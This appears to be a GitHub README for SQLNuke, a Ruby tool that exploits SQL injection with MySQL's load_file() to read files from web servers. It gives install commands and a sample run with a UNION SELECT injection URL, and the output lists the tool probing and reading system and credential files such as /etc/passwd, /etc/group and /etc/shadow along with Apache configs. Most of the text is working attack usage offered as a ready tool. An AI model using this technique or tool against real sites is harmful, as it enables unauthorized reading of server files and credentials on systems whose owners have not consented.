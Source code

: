 ### SQLNuke
A powerful MYSQL Injection load_file() Fuzzer
SQLNuke is Simple SQL Injection load_file() fuzzer written in Object Oriented ruby version 1.8.7 .

In SQL Injection and when you need to gather some information out of the server . the best way you can think of is load_file() <a href="http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_load-file">http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_load-file</a> function . and it take a amount of time when you have to guess and do it manually, so the idea of SQLNuke is to help to make the process fast and guess the internal common files using a list file.</p>

##Animated useage 
![SQLNuke](http://www.pixentral.com/pics/1rMmil6o1pSBnRFOQC8bpjdQvp.gif "SQLNuke")

## Requirements 
**git**
```
$ sudo apt-get install git-core
$ which git
_/usr/bin/git_
$ git --version
_git version 1.7.0.4_
```
**ruby  (Ubuntu)**

```
$ sudo apt-get install ruby
```
**SQLNuke Installation**

```
$ git clone https://github.com/nuke99/sqlnuke.git
$ cd sqlnuke
$ ./sql.rb
```
**Basic Useage**



```
root@hakb0x:/sqlnuke# ./sql.rb -u 'http://localhost/index.php?id=-1+UNION+SELECT+1,XxxX,3--'
[!] localhost folder already exists
[!] No OS selected, Continue with all the possibilities 
[200] - [Failed]     /etc/apache2/logs/access.log 
[200] - [Success]    /etc/hosts  
[200] - [Failed]     /home/apache/httpd.conf 
[200] - [Failed]     /usr/local/apache2/conf/httpd.conf 
[200] - [Failed]     /etc/apache2/vhosts.d/default_vhost.include 
[200] - [Failed]     /etc/apache2/apache2.conf 
[200] - [Failed]     /opt/apache/conf/httpd.conf 
[200] - [Failed]     /usr/local/apache/conf/httpd.conf 
[200] - [Failed]     /var/www/vhosts/sitename/httpdocs//etc/init.d/apache 
[200] - [Success]    /etc/passwd  
[200] - [Failed]     /etc/apache/apache.conf 
[200] - [Failed]     /etc/httpd/conf/httpd.conf 
[200] - [Failed]     /home/apache/conf/httpd.conf 
[200] - [Failed]     /etc/apache2/sites-available/default 
[200] - [Failed]     /etc/apache/httpd.conf 
[200] - [Failed]     /etc/httpd/access.log 
[200] - [Failed]     /etc/apache2/httpd.conf 
[200] - [Failed]     /etc/httpd/httpd.conf 
[200] - [Failed]     /etc/init.d/apache2/httpd.conf 
[200] - [Failed]     /etc/init.d/apache/httpd.conf 
[200] - [Success]    /etc/group  
[200] - [Failed]     C:/wamp/bin/apache/logs/access.log 
[200] - [Failed]     /etc/shadow 
....

[+] Saved files are in 'output/localhost'

```


###  Support or Contact @nuke_99
Twitter : https://twitter.com/nuke_99
